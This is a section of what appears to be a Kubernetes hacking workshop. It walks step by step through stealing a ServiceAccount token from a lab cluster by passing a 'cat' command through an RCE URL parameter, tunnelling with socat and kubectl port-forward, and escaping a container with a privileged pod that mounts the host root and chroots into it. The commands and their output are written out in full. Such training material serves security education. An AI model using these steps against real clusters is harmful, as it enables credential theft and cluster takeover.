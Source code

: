 # Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through

<!-- TOC -->
* [Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through](#hands-on-hacking-k8s-workshop--section-2--exploit-walk-through)
  * [Part 6: Escaping our Namespace](#part-6--escaping-our-namespace)
    * [Checkpoint](#checkpoint)
      * [What we already knew:](#what-we-already-knew-)
      * [New info:](#new-info-)
      * [Timeline of Doom](#timeline-of-doom)
  * [Next step](#next-step)
<!-- TOC -->

## Part 6: Escaping our Namespace

Now that we know about another port 5000 listener in some other Namespace, we will use some simple TCP
tunneling to attack it.

1. In the exec shell still open from the prior step, we will use the `socat` tool to create a tunnel
   from it toward this new listener: `socat tcp-listen:5001,reuseaddr,fork tcp:10.244.162.132:5000` _(replace `10.244.162.132` with the IP from your nmap results)_
   ```shell
   root@snyky:~# socat tcp-listen:5001,reuseaddr,fork tcp:10.244.162.132:5000
   ```

2. In a new shell, set your Kubernetes config variable and create a port-forward into the snyky pod:
   ```shell
   $ export KUBECONFIG=demokubeconfig
   $ kubectl port-forward snyky 5001 -n secure
   Forwarding from 127.0.0.1:5001 -> 5001
   Forwarding from [::1]:5001 -> 5001
   ```
   With these tunnels in place, any TCP traffic connecting to your local machine at port 5001 will be
   forwarded to the snyky pod at port 5001.  Then, the `socat` process will forward that traffic from
   the snyky pod to the mystery service on port 5000.


3. Open http://localhost:5001 in your browser...
   ![](media/02-06-03-sameapp.png)
   The same app _is_ running there! (FYI: we didn't need the `/webadmin` context because we aren't traversing
   an ingress)


4. Let's see if this copy of the application has the RCE vulnerability by looking for it's token: http://localhost:5001?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token
   ![](media/02-06-04-token.png)
   Yes it is and now we have another token we can experiment with! 😈


5. Go ahead and kill the port-forward, close that terminal and kill socat processes and exit the exec session from the snyky
   pod. We won't be needing them anymore.


6. Open the `demokubeconfig` file in an editor comment out the existing `token:` and insert a new line with the token in
   your browser from the new server.
    ```yaml
    ...
    users:
    - name: snyk
      user:
        token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0c...
    #    token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0c...
    ```
   Save and exit your editor.


7. With this new token in place, let's try to list pods in the `default` Namespace again: `kubectl get pods`
    ```shell
    $ kubectl get pod
    NAME                        READY   STATUS    RESTARTS   AGE
    webadmin-69dd65c7f9-86p58   1/1     Running   0          8h
    ```
   Well look at that! It appears that someone deployed a copy of the application into the `default` Namespace and, thus,
   we now have a `default` ServiceAccount token at our disposal!

8. We should see what permissions this new token gives us with `kubectl auth can-i --list`
    ```shell
    $ kubectl auth can-i --list
    Resources                                       Non-Resource URLs                     Resource Names   Verbs
    *.*                                             []                                    []               [create get watch list patch delete deletecollection update]
    ```
   Well, isn't that nice!  Full access to all (`*.*`) resources in the default Namespace! This happens more often that
   you might think because most developers only write RBAC restrictions for resources in the Namespaces their applications
   live in, leaving the `default` to me managed by someone else. Unfortunaly—for this cluster—the default RBAC for the `default` 
   `ServiceAccount` is wide open!

9. Now we can try to deploy a pod in the `default` Namespace; let's go ahead and try that
   [privileged Pod](../demo_yamls/nonroot_priv.yaml) again and see if it works:
   `kubectl apply -f demo_yamls/nonroot_priv.yaml`
   ```shell
   $ kubectl apply -f demo_yamls/nonroot_priv.yaml
   pod/nonroot-priv created
   
   $ kubectl get pods
   NAME                        READY   STATUS    RESTARTS   AGE
   nonroot-priv                1/1     Running   0          5s
   webadmin-69dd65c7f9-86p58   1/1     Running   0          8h
   ```
   That appears to have worked which indicates that PSA restriction in the `default` Namespace are relaxed/non-existant.


10. Exec into this pod and see what we can do: `kubectl exec -it nonroot-priv -- bash`
   ```shell
   $ kubectl exec -it nonroot-priv -- bash
   To run a command as administrator (user "root"), use "sudo <command>".
   See "man sudo_root" for details.
   
   snyky@nonroot-priv:/$ sudo su
   root@nonroot-priv:/# ps ax
       PID TTY      STAT   TIME COMMAND
         1 ?        Ssl    0:00 /usr/local/bin/gotty --config /opt/gotty.conf /bin/bash
        17 pts/0    Ss     0:00 bash
        30 pts/0    D+     0:00 sudo su
        31 pts/1    Ss     0:00 sudo su
        32 pts/1    S      0:00 su
        33 pts/1    S      0:00 bash
        35 pts/1    R+     0:00 ps ax
   ```
   Looking good so far, but if you look at the manifest for this pod, we are mounting a host volume at path `/chroot`:
   ```yaml
   ...
       volumeMounts:
         - mountPath: /chroot
           name: host
       securityContext:
         runAsUser: 999
         privileged: true
     volumes:
     - name: host
       hostPath:
         path: /
         type: Directory
   ```
   ... so let's `chroot /chroot` and see what we get...
   ```shell
   root@nonroot-priv:/# chroot /chroot
   root@nonroot-priv:/# ps ax
       PID TTY      STAT   TIME COMMAND
         1 ?        Ss     0:00 /sbin/init
        83 ?        S<s    0:01 /lib/systemd/systemd-journald
        95 ?        Ssl    6:47 /usr/local/bin/containerd
       167 ?        Ssl    8:32 /usr/bin/kubelet --bootstrap-kubeconfig=/etc/kubernetes/bootstrap-kubelet.conf --kubeconfig=/etc/kubernetes/kubelet.conf --conf
       250 ?        Sl     1:11 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id f6e4526e4b313c3cb9c6dbbb1d0c8050e10611a8f567d6148485acda80b2713a -
       269 ?        Ss     0:00 /pause
       500 ?        Sl     0:09 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id 18aadb6e8ef7b60069841da12737e66bea74891089126081d2208d07f5a92c42 -
       519 ?        Ss     0:00 /pause
       549 ?        Ssl    0:11 /usr/local/bin/kube-proxy --config=/var/lib/kube-proxy/config.conf --hostname-override=kind-worker
       994 ?        Ss     0:00 /usr/local/bin/runsvdir -P /etc/service/enabled
    ...
   ```
   Those are the processes running on the host.  We've effectively escaped this container by mounting the host `/` volume
   into the container and `chroot`ing to it. _(In case you weren't aware, `ps` uses the `/proc` filesystem for its PID info)_

### Checkpoint
Let's take a moment to collect our notes and track our progress.

#### What we already knew:
* An application with an RCE vulnerability is available to us on port 80
* The application is running in a container on a Kubernetes cluster
* The application is behind a service listening on port 5000
* The Kubernetes api-server internal IP address 
* The IP address of the container/pod the application is running in
* The ServiceAccount and Pod configurations in the `secure` Namespace is using the default `automountServiceAccountToken` setting of `true`
* Using a found ServiceAccount token, we were able to connect to the cluster's api-server
* The api-server returned Endpoint information exposing its external IP _(although our workshop Kind cluster obscures this in practice)_
* The account for the token gathered has limited access in the `default` Namespace
* The account is from a Namespace titled `secure` where it has broad access.
* The application container is somewhat hardened by running as a non-root user and its image does not include `sudo`
* The application container is not running with a `readOnlyRootFilesystem:true` so it's mutable
* There are PSA Restricted configurations in place in the `secure` Namespace that restrict root users and privileged mode containers/pods as well as privilege escalation via SUID
* Another application is listening at port 5000 and it is **not** in the `secure` Namespace. (We know
  it is not in the same Namespace because we would have seen it via `kubectl get`.)  We don't know what
  Namespace it is in yet.
* Apparently NetworkPolicy is either not deployed or is far too loose to allow that scan to find listeners
  outside the Namespace.
 
#### New info:
* The new IP address is another copy of the vulnerable application
* We've found another ServiceAccount token from this copy of the application 
* This copy of the application is running in the `default` Namespace
* The ServiceAccount and Pod configurations in the `default` Namespace is using the default `automountServiceAccountToken` setting of `true`
* RBAC is wide open for this ServiceAccount in the `default` Namespace
* PSA restrictions are lax/non-existant in the `default` Namespace, allowing us to deploy privileged containers that we can easily escape.

![](media/02-06-Checkpoint-1.png)

#### Timeline of Doom
Updated progress toward total ownership of the target cluster.
![](media/02-06-Timeline-1.png)

## Next step
In the [next step](02g-exploit.md) we cross the finish line by taking over the cluster!
